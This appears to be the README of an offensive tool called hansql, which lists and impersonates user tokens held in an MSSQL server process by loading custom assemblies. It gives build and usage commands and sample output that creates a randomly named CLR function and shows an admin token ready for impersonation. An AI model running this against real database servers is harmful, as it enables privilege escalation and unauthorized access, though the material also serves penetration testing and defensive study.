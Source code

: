 ## Summary
This tool allows to list and use user tokens present in the memory of the MSSQL process. Through it, it is possible to impersonate other users to achieve a security context switch, with the only requirement of having the ability to load assemblies to the database. The characteristics of the tokens available in memory depend on how the user has logged in to the database.

## Usage

Before using the python script to perform an action, you need to compile the assemblies needed for that specific action, as they are not hardcoded into the python script. For this, the provided build.ps1 script can be used. You can also change the compiler path to use the version of c# that you want. 

### List available tokens

This options allows to inspect the token handles available in the process' memory. This gives the oportunity to decide whether or not continue with the post explotation activities in case that no interesting tokens are found.

We use the build.ps1 to compile the token listing assembly.

```
$ .\build.ps1 -option list
[+] Compiling listing assembly...
Microsoft (R) Visual C# Compiler version 4.8.9037.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```

Now we can use the python script with the listing option.

```
$ python3 hansql.py x:y@z.z.z.z -l

<SNIP>

[SQL] > CREATE FUNCTION [dbo].KmUhuGWW() RETURNS NVARCHAR(MAX) AS EXTERNAL NAME PcZPSEFX.program.run
[SQL] > SELECT dbo.KmUhuGWW()

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
nt service\mssqlserver* (+) -> 212 || macfi\iabad.adm* -> 1056    <-- Two tokens available for impersonation

<SNIP>
```
